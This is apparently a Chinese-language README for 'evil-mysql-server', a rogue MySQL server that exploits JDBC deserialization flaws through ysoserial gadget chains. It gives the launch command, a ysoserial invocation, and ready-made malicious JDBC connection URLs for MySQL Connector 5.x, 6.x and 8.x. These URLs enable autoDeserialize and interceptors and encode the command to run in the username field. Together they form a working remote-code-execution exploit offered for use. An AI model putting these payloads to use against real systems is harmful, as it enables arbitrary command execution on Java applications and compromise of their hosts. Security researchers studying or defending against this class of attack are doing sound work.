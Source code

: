 # evil mysql server

[English](./README.MD) | 简体中文

## 简介

**evil-mysql-server** 是一个针对 jdbc 反序列化漏洞编写的恶意数据库，依赖 [ysoserial](https://github.com/frohoff/ysoserial) 。

使用方式

```shell
. /evil-mysql-server -addr 3306 -java java -ysoserial ysoserial-0.0.6-SNAPSHOT-all.jar
```


启动成功后，使用 jdbc 进行连接，其中用户名称格式为 `yso_payload_command` , 连接成功后 `evil-mysql-server` 会解析用户名称，并使用如以下命令生成恶意数据返回到 jdbc 客户端。
```shell
java -jar ysoserial.jar CommonsCollections1 calc.exe
```

## JDBC url 示例

**5.1.11-5.x**
```shell
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_CommonsCollections1_calc.exe
```

**6.x**
```shell
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_CommonsCollections1_calc.exe
```

**8.x**
```shell
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_CommonsCollections1_calc.exe
```

## 致谢

感谢以下项目，带来的启发

- [!MySQL_Fake_Server](https://github.com/fnmsd/MySQL_Fake_Server)
